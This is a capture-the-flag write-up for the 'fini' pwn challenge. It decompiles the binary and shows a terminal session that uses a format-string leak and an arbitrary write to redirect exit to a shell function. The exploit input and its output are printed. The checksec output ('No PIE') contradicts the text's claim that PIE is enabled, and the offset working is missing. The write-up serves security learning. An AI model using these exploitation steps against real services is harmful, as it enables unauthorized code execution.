


# fini



**Author:** `thek0der`  
**Solves:** 46

**writeup made by** `vlad`
---

## Description

Hope you can FINIsh this challenge.

We get a `challange` binary

---

## Solve

First i connected to the remote server to see what we get.

When we connect we get the following output:

```
nc ctf.ac.upt.ro 9178
=== FINIsh this challenge ;) ===
What's your name?
test
Hello, test
!
1) write
2) exit
> 
```

I inputed `test` when it asked for input and we got disconnected.

The next step is to analyze the binary localy we can first run checksec to check its properties.

```
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/Users/vlad/Downloads/acctf/AC-CTF-Quals/pwn/baby-bof/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Next i opened up the file in `IDA Professional 9.1` and we saw 2 intresting functions: main and win.

After decoding each one we see the following code:

### main:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-B4h] BYREF
  _QWORD *v5; // [rsp+8h] [rbp-B0h] BYREF
  char s[168]; // [rsp+10h] [rbp-A8h] BYREF

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("=== FINIsh this challenge ;) ===");
  puts("What's your name?");
  fgets(s, 128, stdin);
  printf("Hello, ");
  printf(s);
  puts("!");
  puts("1) write");
  puts("2) exit");
  while ( 1 )
  {
    printf("> ");
    v4 = 0;
    if ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 )
      break;
    if ( v4 == 1 )
    {
      printf("Addr (hex): ");
      v5 = 0;
      if ( (unsigned int)__isoc99_scanf("%llx", &v5) == 1
        && (printf("Value (hex, 8 bytes): "), *(_QWORD *)s = 0, (unsigned int)__isoc99_scanf("%llx", s) == 1) )
      {
        *v5 = *(_QWORD *)s;
        puts("ok");
      }
      else
      {
        puts("bad input");
      }
    }
    else
    {
      if ( v4 == 2 )
      {
        puts("bye");
        exit(0);
      }
      puts("???");
    }
  }
  return 0;
}
```

### win:

```c
int win()
{
  return system("/bin/sh");
}
```

We can clearly see that there are 3 main problems here.

The first one is that we can use the name using formated strings, this will be helpfull since PIE is enabled.
The seccond one is that we are able to write anywhere in memory as long as we give where and what to write.
The third problem is that the win function gives us a shell, this is really helpfull since we just need to get the code to jump to win.

The main plan is to now leak the memory using formated strings and proceed to calculate the PIE base and than calculate where the call to exit is made and repalce it with a call to win which will drop as to a shell.

I have reattempted this challange for a few hours to explain it properly again since i lost my old calculations but i wasnt able to so bellow is the history from my terminal where i solved this at the actual ctf.

The main goal is to leak the memory and find a address which we can see what it is and see the offset from the pie base than subtract the offset we find from the leak and we get the pie base.

After that we can get the offset of the exit call and win function and calculate those too from the base.

If our calculations are correct the write should return ok and when we type 2 we should drop to a shell where we can do `ls` and see the following files:

```
challenge
disable_aslr.sh
flag.txt
main.c
server.py
```

And inside the flag.txt we can see the flag:

```
cat flag.txt
ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}%  
```

I have pasted bellow the full output history of my terminal from when i solved it at the ctf and also attached a screenshot with my profile on the platform and the terminal next to it to prove i have solved it even if i cannot show exactly how or make a polished script.

```
nc ctf.ac.upt.ro 9932
=== FINIsh this challenge ;) ===
What's your name?
%21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p %29$p %30$p %31$p %32$p %33$p %34$p %35$p
Hello, (nil) (nil) (nil) 0x7ffe84fa7ba8 0x1 (nil) 0x7ffe84fa7bb8 0x559f088c21c8 0x7f1a0d4fa24a (nil) 0x559f088c00b0 0x100000000 0x7ffe84fa7ba8 0x7ffe84fa7ba8 0xb17db9312fcf8029
!
1) write
2) exit
> 1
Addr (hex): 0x559f088c2420
Value (hex, 8 bytes): 0000559f088c0380
ok
> 2
bye
ls
challenge
disable_aslr.sh
flag.txt
main.c
server.py
cat flag.txt
ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}%   
```


### Flag: ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}